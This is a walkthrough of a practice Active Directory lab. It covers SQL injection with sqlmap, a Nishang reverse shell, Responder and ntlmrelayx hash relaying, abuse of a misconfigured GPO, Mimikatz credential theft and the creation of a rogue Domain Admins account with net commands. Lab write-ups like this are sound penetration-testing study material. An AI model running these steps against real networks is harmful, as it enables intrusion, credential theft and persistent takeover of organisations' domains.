 # lkylabs version 1 writeup by chryzsh

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec


## Network enumeration
nmap 10.7.12.11
10.7.12.12
10.7.12.13

## Getting a foothold
Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap

In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell


## Get a domain user
Get list of domain users with net users /domain


## Domain enumeration
Bloodhound
Powerview

## File share enumeration
Powerview
net view \\fs01
dir \\fs01


Enumerate file shares. Find the \\FS01.lab.local\Groupdata using dir \\FS01.lab.local\ as sqladmin. You can also try net view \\fs01

The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet



## Relaying
Responder
ntlmrelay
CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users
responder -I tap0 -wrf


Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.

Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready

ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'

A shell should now be granted on the target box as the user who's hash was relayed (lab\DPayne)


## GPO enumeration
Powerview

Enumerate GPOs with `Get-NetGPOGroup` to disover a GPO called MailServer-Config, which is interesting

Convert the SID of the Member to domain name

```
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```


This resolves to BUILTIN\Administrators
Enumerate GPOs further, including the MailServer-Config


```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


This shows that Server Admins has write permissions on the GPO, which is a serious misconfig



```
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to



```
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```


The result is merely MX01.lab.local, which indicates the GPO is applied on MX01
To view the GPO itself use:
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.

To trigger the GPO for a specific machine use: `Invoke-GpUpdate -Computer MX01 -Force`

In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.


## Getting domain admin
Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box
Import Powerview on this box
Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation.
Proceed to add yourself as a user on the domain and add yourself to the domain.
net user chryzsh password /add /domain
net group "Domain Admins" /add chryzsh /domain
net group "Remote Desktop Users" /add lab\chryzsh /domain

